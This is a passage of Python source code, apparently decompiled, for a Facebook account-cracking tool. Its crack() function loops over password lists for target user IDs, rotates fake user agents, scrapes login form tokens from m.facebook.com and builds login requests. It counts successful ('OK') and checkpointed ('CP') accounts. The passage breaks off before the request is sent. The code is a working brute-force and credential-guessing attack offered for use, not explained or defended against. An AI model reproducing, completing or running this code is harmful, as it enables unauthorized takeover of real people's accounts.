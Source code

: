     else:
        print(f'''\t{x}[=]{k} Been completed {x} <> ''')
        time.sleep(2)
        exit()



def crack(idf, pwv):
    global cp, ok, ok, loop
    bi = random.choice([
        u,
        k,
        kk,
        b,
        h,
        hh])
    pers = loop * 100 / len(id2)
    fff = '%'
    print('\r%s [ R ] %s/%s - OK : %s - CP : %s - %s%s%s' % (bi, loop, len(id2), ok, cp, int(pers), str(fff), x), end=' ')
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        
        try:
            tix = time.time()
            ses.headers.update({
                'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
                'accept-encoding': 'gzip, deflate br',
                'referer': 'https://m.facebook.com/',
                'sec-fetch-dest': 'document',
                'sec-fetch-user': 'empty',
                'sec-fetch-mode': 'cors',
                'sec-fetch-site': 'same-origin',
                'x-requested-with': 'mark.via.gp',
                'dnt': '1',
                'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
                'user-agent': ua2,
                'upgrade-insecure-requests': '1',
                'Host': 'm.facebook.com' })
            p = ses.get('https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F').text
            dataa = {
                'next': 'https://developers.facebook.com/tools/debug/accesstoken/',
                'pass': pw,
                'flow': 'login_no_pin',
                'uid': idf,
                'jazoest': re.search('name="jazoest" value="(.*?)"', str(p)).group(1),
                'lsd': re.search('name="lsd" value="(.*?)"', str(p)).group(1) }
            ses.headers.update({
                'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
                'accept-encoding': 'gzip, deflate br',
                'referer': 'https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F',
                'sec-fetch-dest': 'document',
                'sec-fetch-user': 'empty',
                'sec-fetch-mode': 'cors',
                'sec-fetch-site': 'same-origin',
                'x-requested-with': 'mark.via.gp',